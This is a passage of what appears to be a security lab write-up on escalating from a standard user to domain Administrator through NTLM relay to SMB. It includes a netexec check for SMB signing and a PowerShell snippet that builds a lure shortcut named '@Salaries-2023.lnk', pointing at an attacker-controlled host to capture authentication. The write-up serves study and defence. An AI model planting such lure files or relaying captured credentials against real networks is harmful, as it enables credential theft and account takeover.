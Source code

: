 </div>

<p style="margin-bottom:0.25em">
There are 2 accounts in this lab:
</p>
- coward — a standard user
- Administrator — a domain admin

The goal is to escalate from coward to Administrator.

## NTLM Relay to SMB
#### Prerequisites
SMB signing must not be enforced to perform the relay attack. Historically, only domain controllers required SMB signing by default. However, since Windows Server 2025 and Windows 11 24H2, SMB signing has been required by default for all SMB connections.
```sh
netexec smb dc2.kawakatz.local
```
<div style="text-align: center; margin: 20px 0;">
  <img src="/assets/img/20251029/3.png" width="800" style="border: 1px solid black;" alt=""/>
  <div style="font-style: italic; color: #666; margin-top: 0px;">SMB signing is not enforced</div>
</div>

#### Examples
NTLM relay to SMB is pretty simple, but examples which can be **actively** exploited are somewhat limited. This is because only machine accounts can be coerced to initiate NTLM authentication without user interaction. However, exploiting machine account privileges on SMB is challenging. Even domain controllers lack special privileges over each other, and it is rare for a machine account to have administrator/exploitable rights on another server.  

The [Misconfiguration Manager](https://github.com/subat0mik/Misconfiguration-Manager) project introduces some examples. For example, a site server's machine account may have administrator privileges on other related servers, and under such conditions, NTLM relay to SMB can be actively exploited.

In this section, I'll use a link file to coerce user authentication. The process is straightforward: place a malicious link file in a shared folder, as described in [The Hacker Recipes](https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/living-off-the-land#shortcut-files-scf-lnk-url). Once placed, any user who opens the folder will automatically authenticate to us. In this example, Administrator opens the folder and we relay the authentication with [Impacket](https://github.com/fortra/impacket)'s ntlmrelayx.py.
```powershell
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("C:\Windows\temp\@Salaries-2023.lnk")
$lnk.TargetPath = "\\<attacker ip>\@icon.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Salaries-2023."
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```
<div style="text-align: center; margin: 20px 0;">
  <img src="/assets/img/20251029/36.png" width="800" style="border: 1px solid black;" alt=""/>
  <div style="font-style: italic; color: #666; margin-top: 0px;">Creating a malicious link file</div>
</div>

